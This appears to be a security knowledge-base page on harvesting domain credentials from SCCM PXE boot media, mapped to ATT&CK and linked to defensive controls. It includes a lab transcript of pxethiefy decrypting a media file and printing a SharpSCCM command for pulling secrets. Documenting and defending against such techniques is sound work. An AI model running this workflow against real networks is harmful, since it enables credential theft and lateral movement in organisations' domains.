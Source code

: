 # Retrieve secrets from PXE boot media
## Code Name
- CRED01

## ATT&CK TTPs
- [TA0001 - Initial Access](https://attack.mitre.org/tactics/TA0001)
- [TA0006 - Credential Access](https://attack.mitre.org/tactics/TA0006)
- [T1078.002 - Valid Accounts: Domain Accounts](https://attack.mitre.org/techniques/T1078/002/)

## Required Privilege / Context
- Unauthenticated network access
- Line of sight to DHCP server
- Line of sight to PXE-enabled distrution point

## Summary
SCCM contains a preboot execution environment (PXE) feature which allows systems to load a specific operating system image on boot.

When PXE is configured, SCCM will make various [configuration changes](https://learn.microsoft.com/en-us/troubleshoot/mem/configmgr/os-deployment/understand-pxe-boot#pxe-service-point-installation) to the distribution point (DP). Most notably, the `PxeInstalled` and `IsPxe` values under the `HKLM\Software\Microsoft\SMS\DP` registry key are set to `1`.

The boot images are then [deployed](https://learn.microsoft.com/en-us/troubleshoot/mem/configmgr/os-deployment/understand-pxe-boot#add-boot-images-to-a-pxe-enabled-dp) from the site server to the DP's file system at `C:\RemoteInstall\`.

The three required components for PXE boot to work are: a PXE client, a DHCP server, and a PXE-enabled DP. A non-domain-joined computer (the PXE client in this case) that has network access could initiate the [DHCP process](https://www.mwrcybersec.com/research_items/identifying-and-retrieving-credentials-from-sccm-mecm-task-sequences), resulting in the PXE client receiving a DHCPPACK request containing the `BootFileName` location and Windows Deployment Services (WDS) network boot program (NBP). Next, the client initiates a TFTP session to [download](https://learn.microsoft.com/en-us/troubleshoot/mem/configmgr/os-deployment/understand-pxe-boot#downloading-the-boot-files) the NBP. The NBP contains several files and and programs that are used to boot the computer into a Windows Preinstallation Environment (WinPE).

To Summarize this process, how PXE works in SCCM:
1. PXE client gets an IP from DHCP server​
2. Client sends new DHCPREQUEST to DP, DP responds with DHCPACK that contains the BootFileName​
3. Client starts TFTP session targeting the boot file​
4. Client downloads the network boot program (NBP)​
5. NBP downloads the operating system loader and boot files​
6. The WinPE image is loaded into a RAMDISK in memory​
7. WinPE boots, loading a task sequence (TS) boot shell, TS manager boot strap (TsPxe.dll)​
8. TS environment variables and a client certificate are downloaded via TFTP​
9. TSPXE locates the MP and downloads policy assignments​
10. Collection and machine variables are downloaded

**Note:** This goes beyond the scope of this article but Microsoft's [documentation](https://learn.microsoft.com/en-us/troubleshoot/mem/configmgr/os-deployment/understand-pxe-boot) covers it in more depth.

This process can be abused because the files and policies can be accessed without booting the PXE media. By initiating the DHCPDISCOVER request, an attacker can locate the PXE media on the network and check if they are password-protected. If they are protected, the hash can be retrieved and cracked offline using [hashcat](https://github.com/hashcat/hashcat) and [this custom module](https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module) from Christopher Panayi. If not protected, the cleartext data can be directly used. [PXEThief](https://github.com/MWR-CyberSec/PXEThief​) and [pxethiefy](https://github.com/csandker/pxethiefy​) both enable and trivialize this attack.

Once the media file is decrypted, it may contain credential material in the `NAAConfig` (network access account(NAA)), `TaskSequence`, and `CollectionSettings` (collection variables) policies.


## Impact

Attackers may recover domain credentials from this process, the difficulty of which is a direct function of the complexity of the password set on the PXE media file. If a weak password is set, cracking the password is relatively computionally "easy," depending on the hardware.

With these credentials, attackers may transition from an unauthenticated context on the network to a domain-authenticated context. If any of the credentials recovered are privileged, it may also enable privilege escalation and lateral movement vectors.

## Defensive IDs
- [PROTECT04](../../defense-techniques/PROTECT04/protect04-description.md)
- [PROTECT07](../../defense-techniques/PROTECT07/protect07-description.md)
- [PROTECT08](../../defense-techniques/PROTECT08/protect08-description.md)
- [PROTECT11](../../defense-techniques/PROTECT11/protect11-description.md)

## Examples

- Using pxethiefy from a Linux machine with network access to retrieve a PXE media file with no password set
```
testsubject4@sphere4:~$ sudo python3 pxethiefy.py explore -i eth0 -a atlas.aperture.local
 
 ________  ___    ___ _______  _________  ___  ___  ___  _______   ________ ___    ___ 
|\   __  \|\  \  /  /|\  ___ \|\___   ___\\  \|\  \|\  \|\  ___ \ |\  _____\\  \  /  /|
\ \  \|\  \ \  \/  / | \   __/\|___ \  \_\ \  \\\  \ \  \ \   __/|\ \  \__/\ \  \/  / /
 \ \   ____\ \    / / \ \  \_|/__  \ \  \ \ \   __  \ \  \ \  \_|/_\ \   __\\ \    / / 
  \ \  \___|/     \/   \ \  \_|\ \  \ \  \ \ \  \ \  \ \  \ \  \_|\ \ \  \_| \/  /  /  
   \ \__\  /  /\   \    \ \_______\  \ \__\ \ \__\ \__\ \__\ \_______\ \__\__/  / /    
    \|__| /__/ /\ __\    \|_______|   \|__|  \|__|\|__|\|__|\|_______|\|__|\___/ /     
          |__|/ \|__|                                                     \|___|/      
                                                                                       v.0.0.2
                                                Based on the original PXEThief by MWR-CyberSec
                                                     https://github.com/MWR-CyberSec/PXEThief/

[*] Querying Distribution Point: atlas.aperture.local
[*] Sending DHCP request to fetch PXE boot files at: atlas.aperture.local
--- Scapy output ---
.
Sent 1 packets.
[*] Variables File Location: \SMSTemp\2023.10.13.16.48.53.0001.{23F3F1E7-6083-4BB7-97D3-C7B890BADB71}.boot.var
[*] BCD File Location: \SMSTemp\2023.10.13.16.48.53.07.{23F3F1E7-6083-4BB7-97D3-C7B890BADB71}.boot.bcd
[*] Downloading var file '\SMSTemp\2023.10.13.16.48.53.0001.{23F3F1E7-6083-4BB7-97D3-C7B890BADB71}.boot.var' from TFTP server 'atlas.aperture.local'
[+] Blank password on PXE media file found!
[*] Attempting to decrypt it...
[+] Media variables file to decrypt: 2023.10.13.16.48.53.0001.{23F3F1E7-6083-4BB7-97D3-C7B890BADB71}.boot.var
[+] Password bytes provided: 0xb4ff3000ceff90fffbff4c00ceff89ffdcff4800
[+] Successfully decrypted media variables file with the provided password!
[+] Management Point: http://atlas.aperture.local
[+] Site Code: PS1
[+] You can use the following information with SharpSCCM in an attempt to obtain secrets from the Management Point..
  SharpSCCM.exe get secrets -i "{d10d7f98-17dd-4588-b645-34964936023b}" -m "{5F8225E8-6B94-4830-AD90-0F88FC2B3536}" -c "3082073E020103308206FA06092A864886F70D010701A08206EB048206E7308206E33082

<SNIP>

6C458FCF53D0A6D2DBA446F1C0414FAD1E03A89D8481E26D7C1BED1E71FDC3272C701020207D0" -s -c PS1 -mp atlas.aperture.local
```

## References
- Christopher Panayi, Identifying and Retrieving Credentials From SCCM/MECM Task Sequences, https://www.mwrcybersec.com/research_items/identifying-and-retrieving-credentials-from-sccm-mecm-task-sequences
- Christopher Panayi, Pulling Passwords Out of Configuration Manager, https://www.youtube.com/watch?v=Ly9goAud0gs
- Christopher Panayi, PXEThief, https://github.com/MWR-CyberSec/PXEThief
- Christopher Panayi, AES-128 ConfigMgr CryptDeriveKey Hashcat Module, https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module
- Carsten Sandker, pxethiefy, https://github.com/csandker/pxethiefy​
- Microsoft, Understanding PXE Boot, https://learn.microsoft.com/en-us/troubleshoot/mem/configmgr/os-deployment/understand-pxe-boot
